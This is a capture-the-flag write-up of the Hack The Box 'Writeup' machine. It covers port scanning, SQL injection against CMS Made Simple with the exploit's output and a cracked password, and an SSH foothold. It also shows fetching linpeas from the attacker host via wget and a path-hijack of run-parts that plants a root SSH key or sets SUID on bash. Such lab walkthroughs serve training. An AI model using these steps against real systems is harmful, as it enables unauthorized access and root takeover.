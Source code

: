 ```yaml
---
title: "Writeup"
date: 2025-08-12 14:10:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, SQLi, CMS Made Simple, pspy, Path Hijacking, SUID]
---
```


## Reconnaissance

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN writeup 10.10.10.138
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 14:14 PKT
Nmap scan report for 10.10.10.138
Host is up (0.090s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```

### Web Enumeration

Let's interact with the web server on port 80. 

![alt text](/assets/images/writeup-web.png)

From nmap scan, we can see there is a robots.txt file that disallows access to `/writeup/`. Let's check it out.

There are 3 writeups available. They are fetched with the query: `http://10.10.10.138/writeup/index.php?page=ypuffy`

On viewing the page source of `/writeup/index.php`, we see:

```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

#### Version Detection

CMS Made Simple 2019 was used. From CMS Made Simple website: [Website](https://www.cmsmadesimple.org/downloads/cmsms)
we can try to understand the structure of the CMS and how it works. Also during my search I came across an SQLi.

[SQLi CMS Made Simple](https://www.exploit-db.com/exploits/46635)

If we go to 
[CMS Made Simple](http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/)

we can understand the structure of CMS. 

![alt text](/assets/images/writeup-cms.png)

We can confirm the existence of admin directory. But it requires auth. `http://10.10.10.138/writeup/admin`

If we go to: `http://10.10.10.138/writeup/doc/CHANGELOG.txt` we can confirm the version.

CMS Made Simple - Version 2.2.9.1

### Exploitation

The exploit we came across supports this version.

[Exploit](https://www.exploit-db.com/exploits/46635)

The script requires Python2, pip2 (for module termcolor). Wait once the script starts running.

```bash
python2 exploit.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807lp
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43z
```

However, the password is not in correct MD5 format. It is not 32 characters long. We will run the script a few more times. Now we have a different salt and password. After running the script for the 3rd time we get:

![alt text](/assets/images/writeup-password.png)

### Hashcat

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807`

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9`

## Foothold

### SSH

Let's try SSH. 

```bash
ssh jkr@10.10.10.138   
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ED25519) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ 
```

We don't have curl on the victim machine to transfer linpeas. 

### wget

Let's use wget to download linpeas.

```bash
wget http://10.10.16.30/linpeas.sh
--2025-08-12 06:48:07--  http://10.10.16.30/linpeas.sh
Connecting to 10.10.16.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                          100%[=================================================================================================================>] 933.76K   839KB/s    in 1.1s    

2025-08-12 06:48:09 (839 KB/s) - ‘linpeas.sh’ saved [956174/956174]
```

LinPEAS didn't get us much information.

```bash

jkr@writeup:~$ ss -tulnp
Netid  State      Recv-Q Send-Q                                                       Local Address:Port                                                                      Peer Address:Port              
udp    UNCONN     0      0                                                                        *:68                                                                                   *:*                  
tcp    LISTEN     0      128                                                                      *:22                                                                                   *:*                  
tcp    LISTEN     0      80                                                               127.0.0.1:3306                                                                                 *:*                  
tcp    LISTEN     0      128                                                                     :::22                                                                                  :::*                  
tcp    LISTEN     0      511                                                                     :::80                                                                                  :::*
```

Let's enumerate MySQL. Our current user can't access mySQL. From LinPEAS I also observed that the current user is in a unique group. 

## Privilege Escalation

```bash
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

Let's check what the staff group does on debian. 

From: [SystemGroups](https://wiki.debian.org/SystemGroups)

staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.

Basically if we are able to find any binary that runs without calling it's absolute path and is located inside `/usr/bin` we can override that binary to either add a root user, create an ssh key for root user, or set suid on bash.

Transfer pspy, run it. SSH as jkr again and check if any process runs without calling the absolute path.

```bash
2025/08/12 07:20:28 CMD: UID=0     PID=1      | init [2]   
2025/08/12 07:20:58 CMD: UID=0     PID=20873  | sshd: [accepted] 
2025/08/12 07:20:58 CMD: UID=0     PID=20874  | sshd: [accepted]  
2025/08/12 07:21:01 CMD: UID=0     PID=20875  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20876  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20877  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2025/08/12 07:21:12 CMD: UID=0     PID=20878  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20879  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20880  | run-parts --lsbsysinit /etc/update-motd.d 
2025/08/12 07:21:12 CMD: UID=0     PID=20881  | uname -rnsom 
2025/08/12 07:21:12 CMD: UID=0     PID=20882  | sshd: jkr [priv]
```

`run-parts` and `uname` are two binaries that run without calling their absolute path. We can override either. 

I tried the SSH path and adding a user path however, they both didn't seem to work.

This is the run-parts binary under `/usr/local/bin`:

```bash
#!/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyrUNppv/urjkY2LsG9OPcV/WcMOUjXFsEQiYpNnt+t root@vm-kali'
>> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

I then went for setting an SUID on bash:

```bash
jkr@writeup:~$ touch /usr/local/bin/run-parts
jkr@writeup:~$ echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
```

To trigger the run-parts binary be sure to SSH as jkr again.

---
